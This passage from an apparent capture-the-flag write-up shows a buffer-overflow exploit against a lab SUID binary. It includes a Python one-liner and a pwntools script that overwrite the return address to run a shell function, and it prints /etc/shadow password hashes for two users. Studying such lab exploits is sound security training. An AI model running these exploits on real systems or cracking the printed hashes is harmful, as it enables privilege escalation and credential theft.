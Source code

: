 ```sh
   0x080484e9 <+30>:    call   0x8048370 <setgid@plt>
   0x080484ee <+35>:    add    esp,0x10
   0x080484f1 <+38>:    sub    esp,0xc
   0x080484f4 <+41>:    push   0x80485d0
   0x080484f9 <+46>:    call   0x8048380 <system@plt>
   0x080484fe <+51>:    add    esp,0x10
   0x08048501 <+54>:    nop
   0x08048502 <+55>:    leave
   0x08048503 <+56>:    ret
End of assembler dump.
```

Here we can see that the function starts at 0x080484cb.
So if we provides it 44 characters of bullshit, and then point it to this address we could run that function!
This CPU architecture is "little endian", meaning bytes are backwards, making the address `cb840408`.
So now we have a functional payload, and we use python to make it:

```python
print("A"*44 + "\xcb\x84\x04\x08")
```

Then we have to use a `python -c` in bash in order to do this directly in our bash shell, and then we pipe that output to the binary:

```bash
python -c 'print("A"*44 + "\xcb\x84\x04\x08")' | ./root
```

This will call the `shell()` function, and will print the shadows file.
The shadowfile contains a hash of all the passwords for each usser on the box:

- `root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.`
- `papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.`


### PART 8 - Binary Exploitation: The pwntools way

This step explains how you can do the same thing using `pwntools` in python.
Here is the script that will do the same thing as we just did manually:

```python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```

`process` - Set up a process with a given binary
`ELF` - Will obtain the memeory address of the functions in the binary
`fit` - fit will form a payload by combining characters and our memory address
`proc.sendline()` - will send the current payload we created
`proc.interactive()` - allows us to see the output of what happened
